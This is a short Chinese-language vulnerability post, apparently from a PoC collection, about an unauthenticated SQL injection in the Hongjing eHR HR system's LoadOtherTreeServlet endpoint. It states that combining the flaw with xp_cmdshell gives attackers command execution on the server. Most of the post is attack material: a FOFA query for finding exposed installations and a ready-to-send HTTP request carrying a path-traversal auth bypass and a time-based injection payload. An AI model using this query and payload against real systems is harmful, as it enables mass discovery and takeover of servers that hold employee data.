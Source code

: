# 宏景eHR人力资源管理系统接口LoadOtherTreeServlet存在SQL注入漏洞

宏景eHR /gz/LoadOtherTreeServlet 接口处存在sql注入漏洞，未经身份验证的远程攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

## fofa

```
app="HJSOFT-HCM"
```

## poc

```yaml
GET /w_selfservice/oauthservlet/%2e./.%2e/gz/LoadOtherTreeServlet?modelflag=4&budget_id=1%29%3BWAITFOR+DELAY+%270%3A0%3A5%27--&flag=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

![image-20240704170848415](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407041708490.png)